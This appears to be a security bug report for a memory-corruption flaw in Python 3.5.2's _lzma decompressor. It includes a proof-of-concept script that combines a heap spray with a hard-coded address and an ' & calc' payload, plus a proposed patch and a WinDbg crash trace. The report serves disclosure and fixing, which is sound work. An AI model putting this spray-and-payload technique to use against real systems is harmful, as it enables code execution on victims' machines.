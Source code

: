 import _lzma
from array import *

# System address when tested: 76064070
d = _lzma.LZMADecompressor()
spray = [];
for x in range(0, 0x700):
    meg = bytearray(b'\x76\x70\x40\x06' * int(0x100000 / 4));        
    spray.append(meg)

def foo():    
    for x in range(0, 2):
        try:
            d.decompress(b"\x20\x26\x20\x63\x61\x6c\x63\x00\x41\x41\x41\x41\x41\x41\x41\x41" * int(0x100 / (4*4)))
        except:
            pass
foo()
print(len(spray[0]))
print(len(spray))


To fix the issue, it is recommended that lzs->next_in be zeroed in the event the call to decompress_buf fails. A proposed patch is attached.

    result = decompress_buf(d, max_length);
    if(result == NULL) {
        lzs->next_in = 0;
        return NULL;
    }


A repro file is attached as well.

Exception details:

0:000> r
eax=0000000a ebx=009ef540 ecx=00000002 edx=41414141 esi=08b44970 edi=09275fe8
eip=6bf55149 esp=009ef3e0 ebp=009ef434 iopl=0         nv up ei pl nz na po cy
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010203
VCRUNTIME140D!TrailingDownVec+0x1f9:
6bf55149 8917            mov     dword ptr [edi],edx  ds:002b:09275fe8=????????
0:000> k
ChildEBP RetAddr  
009ef3e4 5d573f80 VCRUNTIME140D!TrailingDownVec+0x1f9 [f:\dd\vctools\crt\vcruntime\src\string\i386\memcpy.asm @ 658]
009ef434 5d573383 _lzma_d!decompress+0x130 [c:\source2\python-3.5.2\modules\_lzmamodule.c @ 997]
009ef454 5d572049 _lzma_d!_lzma_LZMADecompressor_decompress_impl+0x93 [c:\source2\python-3.5.2\modules\_lzmamodule.c @ 1097]
009ef49c 55e6dd40 _lzma_d!_lzma_LZMADecompressor_decompress+0x79 [c:\source2\python-3.5.2\modules\clinic\_lzmamodule.c.h @ 99]
009ef4d4 55f65199 python35_d!PyCFunction_Call+0x80 [c:\source2\python-3.5.2\objects\methodobject.c @ 98]
009ef4fc 55f6008d python35_d!call_function+0x3e9 [c:\source2\python-3.5.2\python\ceval.c @ 4705]
009ef58c 55f6478d python35_d!PyEval_EvalFrameEx+0x509d [c:\source2\python-3.5.2\python\ceval.c @ 3238]
009ef5cc 55f5afbd python35_d!_PyEval_EvalCodeWithName+0x73d [c:\source2\python-3.5.2\python\ceval.c @ 4018]
009ef608 55f5af81 python35_d!PyEval_EvalCodeEx+0x2d [c:\source2\python-3.5.2\python\ceval.c @ 4039]
009ef63c 55fe67de python35_d!PyEval_EvalCode+0x21 [c:\source2\python-3.5.2\python\ceval.c @ 777]
009ef660 55fe2daa python35_d!run_mod+0x3e [c:\source2\python-3.5.2\python\pythonrun.c @ 976]
009ef69c 55fe3dac python35_d!PyRun_FileExFlags+0x9a [c:\source2\python-3.5.2\python\pythonrun.c @ 929]
009ef730 55fe2c5b python35_d!PyRun_SimpleFileExFlags+0x3ec [c:\source2\python-3.5.2\python\pythonrun.c @ 396]